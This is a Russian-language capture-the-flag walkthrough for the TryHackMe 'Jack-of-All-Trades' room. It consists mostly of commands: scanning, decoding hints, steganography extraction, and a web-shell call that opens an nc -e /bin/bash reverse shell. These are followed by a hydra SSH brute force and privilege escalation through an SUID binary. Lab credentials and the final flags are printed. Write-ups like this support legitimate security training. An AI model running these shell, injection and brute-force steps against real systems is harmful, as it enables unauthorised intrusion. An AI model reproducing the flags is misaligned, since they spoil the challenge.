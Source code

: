[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Jack-of-All-Trades](https://tryhackme.com/r/room/jackofalltrades) 

Всего 1 заданиe:
## Задание 1
Джек — человек с большим количеством талантов. Зоопарк нанял его для поимки пингвинов из-за его многолетнего опыта в 
этом деле, но все не так, как кажется... Мы должны остановить его! Сможете ли вы разглядеть его за маской 
забывчивого старого игрушечного мастера и уничтожить этого психа?

### Ответьте на вопросы ниже
Пользовательский флаг
```commandline
nmap -sC -sV <IP>
curl -s http:/<IP>
echo "UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==" | base64 -d
# u?WtKSraq
steghide info header.jpg
steghide extract -sf header.jpg
cat cms.creds 
Username: jackinthebox
Password: TplFxiSHjY

curl -s http://<IP>:22/recovery.php

echo "GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=" | base32 -d | xxd -r -p | tr 'A-Za-z' 'N-ZA-Mn-za-m'
# bit.ly/2TvYQ2S
# http://<IP>:22/recover.php
jackinthebox:TplFxiSHjY
# http://<IP>:22/nnxhweOV/index.php
nc -nlvp 4444
http://<IP>:22/nnxhweOV/index.php?cmd=nc%20-e%20/bin/bash%20<IP0>%2080%204444
ls
cd /home
ls
wc -l jacks_password_list
cat jacks_password_list
hydra -l jack -P jacks_password_list -s 80 <IP> ssh
# login: jack   password: ITMJpGGIqg1jn?>@
ssh jack@<IP> -p 80
user.jpg
```
```commandline
securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}
```
Корневой флаг
```commandline
find / -type f -user root -perm -u=s 2>/dev/null
strings /root/root.txt
```
```commandline
securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)